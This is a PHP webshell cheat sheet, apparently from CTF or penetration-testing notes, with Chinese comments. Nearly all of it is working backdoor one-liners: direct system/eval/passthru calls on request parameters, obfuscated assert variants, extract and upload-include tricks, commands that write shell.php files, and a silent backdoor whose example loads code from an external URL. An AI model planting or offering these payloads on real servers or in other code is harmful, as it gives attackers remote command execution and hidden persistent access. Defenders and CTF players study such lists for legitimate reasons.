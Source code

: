 # Webshell
```php
<?php system($_GET["cmd"]); ?>
<?php system($_GET[1]); ?>
<?php system("`$_GET[1]`"); ?>
<?= system($_GET[cmd]);
<?=`$_GET[1]`;
<?php eval($_POST[cmd]);?>
<?php echo `$_GET[1]`;
<?php echo passthru($_GET['cmd']);
<?php echo shell_exec($_GET['cmd']);
<?php eval(str_rot13('riny($_CBFG[cntr]);'));?>
<script language="php">system("id"); </script>

<?php $_GET['a']($_GET['b']); ?>
// a=system&b=ls
// a=assert&b=system("ls")

<?php array_map("ass\x65rt",(array)$_REQUEST['cmd']);?>
// .php?cmd=system("ls")

<?@extract($_REQUEST);@die($f($c));?>
// .php?f=system&c=id

<?php @include($_FILES['u']['tmp_name']);
// 構造 <form action="http://x.x.x.x/shell.php" method="POST" enctype="multipart/form-data">上傳
// 把暫存檔include進來
// From: http://www.zeroplace.cn/article.asp?id=906

<?php $x=~¾¬¬º­«;$x($_GET['a']); ?>
// not backdoor (assert)
// .php?a=system("ls")

echo "{${phpinfo()}}";

echo "${system(ls)}";

echo Y2F0IGZsYWc= | base64 -d | sh
// Y2F0IGZsYWc=   =>  cat  flag

echo -e "<?php passthru(\$_POST[1])?>;\r<?php echo 'A PHP Test ';" > shell.php
// cat shell.php
// <?php echo 'A PHP Test ';" ?>

echo ^<?php eval^($_POST['a']^); ?^> > a.php
// Windows echo導出一句話

<?php fwrite(fopen("gggg.php","w"),"<?php system(\$_GET['a']);");

<?php
header('HTTP/1.1 404');
ob_start();
phpinfo();
ob_end_clean();
?>

<?php
// 無回顯後門
// e.g. ?pass=file_get_contents('http://kaibro.tw/test')
ob_start('assert');
echo $_REQUEST['pass'];
ob_end_flush();
```